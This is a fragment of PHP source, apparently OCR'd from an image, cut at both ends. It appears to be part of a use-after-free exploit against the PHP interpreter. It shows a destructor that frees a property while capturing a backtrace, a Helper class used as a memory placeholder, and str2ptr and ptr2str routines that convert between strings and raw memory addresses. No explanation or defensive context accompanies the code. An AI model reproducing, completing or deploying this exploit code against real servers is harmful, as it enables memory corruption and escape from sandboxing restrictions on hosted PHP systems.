 ```php

​    public function __destruct() { 

​      global $backtrace; 

​      unset($this->a);

​      $backtrace = (new Exception)->getTrace(); # ;)

​      if(!isset($backtrace[1]['args'])) { # PHP >= 7.4

​        $backtrace = debug_backtrace();

​      }

​    }

  }

 

  class Helper {

​    public $a, $b, $c, $d;

  }

 

  function str2ptr(&$str, $p = 0, $s = 8) {

​    $address = 0;

​    for($j = $s-1; $j >= 0; $j--) {

​      $address <<= 8;

​      $address |= ord($str[$p+$j]);

​    }

​    return $address;

  }

 

  function ptr2str($ptr, $m = 8) {

​    $out = "";

​    for ($i=0; $i < $m; $i++) {

​      $out .= sprintf('%c',$ptr & 0xff);

​      $ptr >>= 8;

​    }

​    return $out;

  }

```